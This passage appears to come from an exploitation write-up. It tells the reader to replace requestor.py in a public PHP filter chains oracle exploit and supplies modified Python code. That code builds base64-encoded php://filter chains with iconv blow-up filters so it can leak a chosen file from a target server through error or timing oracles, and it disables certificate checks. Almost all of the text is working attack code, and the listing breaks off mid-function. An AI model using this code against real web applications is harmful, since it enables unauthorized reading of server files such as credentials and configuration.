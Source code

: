 ### Editing the exploit:

Replace [this](https://github.com/synacktiv/php_filter_chains_oracle_exploit/blob/main/filters_chain_oracle/core/requestor.py) code from the exploit with the following code.

```python
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re

class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="", headers="{}", verb=Verb.POST, in_chain="", proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = json.loads(headers)
        self.verb = verb
        self.json_input = json_input
        self.match = match
        self.data = data
        self.in_chain = f"|convert.iconv.{in_chain}" if in_chain else ""
        self.delay = float(delay)
        self.proxies = {'http': proxy, 'https': proxy} if proxy else None
        self.instantiate_session()
        
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
        else:
            self.time_based_attack = False

    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False
        self.session.timeout = 10  # Set timeout (in seconds) for each request

    def join(self, *x):
        return '|'.join(x)

    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32] * 15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    def parse_parameter(self, filter_chain):
        return {self.parameter: filter_chain}

    def req_with_response(self, s, retries=3, base_delay=1):
        if self.delay > 0:
            time.sleep(self.delay)
        
        import base64
        php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
```